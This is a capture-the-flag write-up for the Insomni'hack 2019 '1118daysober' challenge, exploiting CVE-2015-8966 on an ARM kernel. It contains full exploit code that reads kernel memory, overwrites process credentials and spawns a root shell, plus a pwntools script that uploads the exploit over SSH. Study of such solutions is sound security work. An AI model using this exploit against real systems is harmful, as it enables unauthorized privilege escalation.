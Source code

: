 ```yaml
---
title: 1118daysober - Insomni'hack Teaser 2019
date: '2019-01-22 10:48:25'
layout: post
---
```


> The kernel of [this vm](https://storage.googleapis.com/insomnihack/media/1118daysober_files-d3c498fd492d0b9230827301c3335b5b130e49c0fe5d950fc96ca6c3c6645c94.tar.xz) is vulnerable to CVE-2015-8966, exploit it to gain root privileges and read /flag/flag.txt !
> 
> Terminal  ssh 1118daysober@1118daysober.teaser.insomnihack.ch
> 
> Password: 1118daysober

*158 Pts, 28 solved, pwn*

We are given an arm vm and a CVE number, which after a bit of googling leads us to a nice [writeup and POC](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) by [ThomasKing2014](https://twitter.com/ThomasKing2014) who discovered the issue.



The summary is that calling `fcntl64` with the right params will call `set_fs(KERNEL_DS)` and never set it back. This allows us to use kernel addresses instead of userland addresses when dealing with syscalls, eg `read(0, (void*)0xc0008000, 8)`will read from stdin directly to the kernel address.



The main problem is that after triggering the bug we can no longer provide userland addresses to the syscalls, so we cannot just use `pipe/read/write` to access and modify the kernel like normal. We can use `pipe` to write from one kernel address to another kernel address though, which will come in handy later on.



After a lot of time messing around with different ways of trying to transfer kernel data to userland, I found that we could use the thread name to transfer data out (so long as there were no null bytes as strcpy is used):

```c
unsigned int read_int(unsigned int kaddr) {
  char buf[0x200] = {0};
  prctl(PR_SET_NAME, kaddr, 0, 0, 0);
  prctl(PR_GET_NAME, buf, 0, 0, 0);
  return *(unsigned int *)buf;
}
```



So now we have all the building blocks, we can read kernel data and overwrite any kernel data with nulls. The plan is to locate the `task_struct` for our process, then find the `cred`, then overwrite the ids with `0` to make us root and spawn a shell. There is no `kaslr` which is nice, but the stack and heap are still randomised. As `init_task` is at a fixed address, we can start there and then walk through the linked list of tasks. In the end our task was almost always at `init_task.tasks->prev` and running it a few times was easier than walking back through the list.



After a couple of runs we get root and can cat the flag:

`INS{KERNEL_DS_make5_life_e4sier}`



exploit.c:

```c
/*
 Based of POC from https://github.com/ThomasKing2014/android-Vulnerability-PoC/blob/master/CVE-2015-8966/poc.c
*/

#define _GNU_SOURCE

#include <fcntl.h>
#include <pthread.h>
#include <semaphore.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/ptrace.h>
#include <sys/socket.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/utsname.h>
#include <sys/wait.h>
#include <unistd.h>

void kwrite(void *kbuf1, void *kbuf2, size_t count) {
  int pipefd[2];
  ssize_t len;
  pipe(pipefd);
  write(pipefd[1], kbuf2, count);
  read(pipefd[0], kbuf1, count);
  close(pipefd[0]);
  close(pipefd[1]);
}

unsigned int read_int(unsigned int kaddr) {
  char buf[0x200] = {0};
  prctl(PR_SET_NAME, kaddr, 0, 0, 0);
  prctl(PR_GET_NAME, buf, 0, 0, 0);
  return *(unsigned int *)buf;
}

unsigned int init_task = 0xC1307080;
unsigned int tasks_prev_offset = 0x1F8;
unsigned int cred_offset = 0x380;
unsigned int kernel_nulls = 0xc0008000;

void exploit() {
  char buf[100] = {0};

  unsigned int task = read_int(init_task + tasks_prev_offset) - 500; // init_task.tasks->prev
  printf("task 0x%x\n", task);

  unsigned int creds = read_int(task + cred_offset); // creds offset
  printf("creds: 0x%x\n", creds);

  if (creds) {
    kwrite((void *)(creds + 4), (void *)kernel_nulls, 0x20);
    setuid(0);
    seteuid(0);
    setegid(0);
    setgid(0);
    system("/bin/sh");
  }
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg) {
  __asm __volatile(
      "swi	0x9000DD\n"
      "mov	pc, lr\n"
      :
      :
      :);
}

#define F_OFD_GETLK 36
#define F_OFD_SETLK 37
#define F_OFD_SETLKW 38

int main(int argc, char const *argv[]) {
  int fd = open("/proc/cpuinfo", O_RDONLY);

  struct flock *map_base = 0;

  if (fd == -1) {
    perror("open");
    return -1;
  }
  map_base = (struct flock *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  if (map_base == (void *)-1) {
    perror("mmap");
    goto _done;
  }
  memset(map_base, 0, 0x1000);
  map_base->l_start = SEEK_SET;
  if (sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base)) {
    perror("sys_oabi_fcntl64");
  }

  exploit();
  munmap(map_base, 0x1000);
_done:
  close(fd);
  return 0;
}
```



pwn.py:

```python
#!/usr/bin/env python2
from pwn import *

def send_command(cmd, print_cmd = True, print_resp = False):
  if print_cmd:
    log.info(cmd)

  p.sendlineafter("/ $", cmd)
  resp = p.recvuntil("/ $")

  if print_resp:
    log.info(resp)

  p.unrecv("/ $")
  return resp

def send_file(name):
  file = read(name)
  f = b64e(file)

  send_command("rm /home/user/a.gz.b64")
  send_command("rm /home/user/a.gz")
  send_command("rm /home/user/a")
  size = 800
  for i in range(len(f)/size + 1):
    log.info("Sending chunk {}/{}".format(i, len(f)/size))
    send_command("echo -n '{}'>>/home/user/a.gz.b64".format(f[i*size:(i+1)*size]), False)

  send_command("cat /home/user/a.gz.b64 | base64 -d > /home/user/a.gz")
  send_command("gzip -d /home/user/a.gz")
  send_command("chmod +x /home/user/a")

def exploit():
  send_file("working.gz")
  send_command("/home/user/a")
  p.interactive()

  # INS{KERNEL_DS_make5_life_e4sier}


if __name__ == "__main__":
  context.terminal=["tmux", "sp", "-h"]
  context.arch = "arm"

  if len(sys.argv) > 1:
    s = ssh(host="1118daysober.teaser.insomnihack.ch", user="1118daysober", password="1118daysober", timeout=5)
    p = s.shell('/bin/sh')
  else:
    p = process("./run.sh", env={}, stdin=PTY, stdout=PTY)


  exploit()
```



Makefile:

```makefile
working: working.c
	./arm-linux-musleabi/bin/arm-linux-musleabi-gcc working.c -o working -static -Os
	arm-linux-gnueabi-strip working
	gzip -fk working
```
